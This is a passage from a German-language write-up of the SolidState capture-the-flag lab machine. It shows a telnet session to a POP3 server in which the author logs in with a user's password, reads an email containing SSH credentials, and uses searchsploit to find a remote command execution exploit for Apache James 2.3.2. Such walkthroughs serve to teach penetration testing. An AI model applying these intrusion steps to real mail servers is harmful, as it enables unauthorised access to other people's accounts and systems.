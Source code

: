 Verbinden wir uns nun per Telnet mit dem POP3 Service. Eine Liste mit den möglichen Befehlen für [POP3](http://www.suburbancomputer.com/tips_email.htm) kannst du hier finden.

```shell
root@kali:/home/SolidState# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready

user mindy
+OK

pass m10x
+OK Welcome mindy

list
+OK 2 1945
1 1109
2 836
.

retr 2
+OK Message follows
[...]
Dear Mindy,
Here are your ssh credentials to access the system. Remember to reset your password after your first login.
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path.

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
.

quit
+OK Apache James POP3 Server signing off.
Connection closed by foreign host.
```

Wir haben nun die SSH-Login Daten. Allerdings können wir damit noch nicht soviel anfangen, da wir durch den Login als Mindy nur eine [eingeschränkte Bash-Shell (rbash)](https://www.tecchannel.de/a/ratgeber-shells-fuer-linux-und-unix-richtig-nutzen,2038218,4) haben, bei welcher nur die Befehle **cat** und **ls** erlaubt sind. Bei den anderen Emails ist nichts interessantes zu finden. Was nun?

Suchen wir doch mal nach Schwachstellen im Bezug auf JAMES mit der Version 2.3.2.

```shell
root@kali:/home/SolidState# searchsploit james 2.3.2
-------------------------------------------------------------------------------------
Exploit Title                                        | Path
                                                     | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------
Apache James Server 2.3.2 - Remote Command Execution | exploits/linux/remote/35513.py
-------------------------------------------------------------------------------------
```
